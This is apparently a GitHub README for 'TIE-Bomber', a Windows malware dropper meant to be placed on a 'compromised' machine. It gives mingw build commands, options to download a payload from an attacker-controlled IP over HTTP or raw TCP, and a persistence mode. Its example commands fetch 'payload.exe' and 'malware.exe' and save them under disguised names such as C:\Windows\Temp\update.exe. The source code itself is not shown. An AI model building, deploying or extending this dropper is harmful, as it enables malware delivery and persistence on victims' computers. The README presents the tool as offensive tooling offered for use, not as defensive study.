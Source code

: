 # TIE-Bomber Dropper (Warning! Blinding GIF)

![img](TIE-Bombers.gif)

## Build
- Install ```mingw-64```
```
sudo apt update && sudo apt install mingw-w64
```
- Compile
```
x86_64-w64-mingw32-gcc -o TIE-Bomber.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lws2_32 -lurlmon -lwininet -lshlwapi TIE-Bomber.c
```
## Usage
> Place the TIE-Bomber.exe to the compromised Windows machine

```
TIE-Bomber.exe -i <IP> -e <EXE> [options]
```

## Required arguments

* `-i <IP>`
  IP address of the server to download the payload from.

* `-e <EXE>`
  Name of the executable to download (e.g., payload.exe).

## Optional arguments

* `-t <TARGET PATH>`
  Full path where the payload should be saved.
  If omitted, name will not be changed.

* `-p <PORT>`
  Port number to connect to (default: 80).

* `-s`
  Use raw TCP sockets instead of HTTP or other protocols.

* `-P`
  Enable persistence only (no download or connect).
  Note: when using `-P`, the `-t` option (target path) is required.

* `-h`
  Print this help message.

## Examples

```
dropper.exe -i 192.168.1.100 -e payload.exe -t C:\Users\Public\drop.exe
dropper.exe -i 10.0.0.2 -e malware.exe -p 9001 -s
dropper.exe -P -t C:\Windows\Temp\update.exe
```

---

# Contributions are highly welcomed!
